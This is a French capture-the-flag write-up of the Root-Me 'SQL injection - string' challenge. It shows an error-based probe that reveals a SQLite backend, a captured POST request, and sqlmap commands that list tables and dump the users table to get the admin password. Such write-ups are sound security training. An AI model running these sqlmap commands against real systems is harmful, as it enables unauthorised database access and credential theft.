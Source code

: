 # SQL injection - string

Page du [challenge](http://challenge01.root-me.org/web-serveur/ch19/)

## Analyse

Depuis l'onglet _Search_, dans les champs `Recherche` j'entre la valeur `'#`? J'obtiens un message d'erreur qui m'indique la vulnérabilité, mais aussi le type de base de données: `Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "#" in /challenge/web-serveur/ch19/index.php on line 150 unrecognized token: "#"`.

En utilisant _BurpSuite_, je récupère la requête POST en RAW, que je copie dans un fichier _req.txt_.

```
POST /web-serveur/ch19/?action=recherche HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge01.root-me.org/web-serveur/ch19/?action=recherche
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

recherche=test
```

## Attaque

Première tentative basique de sqlmap. Malheuresement, cette commande basique n'apporte rien.
```
sqlmap -r req.txt -p recherche --dbms sqlite --dbs
```

On va augmenter le _risk_ et le _level_. Dans le cas d'une base de données _SQLite_, on peut seulement rechercher les tables. Petit à petit, on retrouve l'information recherché, le mot de passe de l'admin.
```
sqlmap -r req.txt -p recherche --dbms sqlite --risk 3 --level 3 --tables
sqlmap -r req.txt -p recherche --dbms sqlite --risk 3 --level 3 -T users --dump
```
